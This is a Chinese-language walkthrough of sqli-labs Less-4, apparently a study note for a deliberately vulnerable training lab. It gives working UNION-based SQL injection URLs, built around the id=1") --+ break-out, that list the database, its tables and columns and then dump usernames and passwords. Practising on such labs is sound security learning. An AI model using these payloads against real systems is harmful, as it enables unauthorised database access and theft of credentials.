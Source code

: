 ```yaml
---
title: Less - 04
date: 2023-03-13T13:05:58Z
lastmod: 2023-03-13T13:39:48Z
---
```


# Less - 04

---

# 通关教程

---

## 1、判断注入

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=1 #回显正常
http://192.168.225.132/sqli-labs/Less-4/?id=1' #回显正常
http://192.168.225.132/sqli-labs/Less-4/?id=1" #回显错误
http://192.168.225.132/sqli-labs/Less-4/?id=1")--+ #回显正常
```

​![image](assets/image-20230313130732-p0df075.png)​

​![image](assets/image-20230313130752-3iq7mk3.png)​

---

## 2、查看当前的数据库

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=1") union select 1,2,database()--+
```

​![image](assets/image-20230313130922-egg16cq.png)​

---

## 3、查看当前数据表

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=0")  union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230313131013-hsg8brn.png)​

---

## 4、查看字段名

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=0") union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​![image](assets/image-20230313131117-dnfcvzv.png)​

---

## 5、查看字段值

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=0") union select 1,2,(select group_concat(username,password) from security.users)--+
```

​![image](assets/image-20230313131650-a7tz1sv.png)​

‍
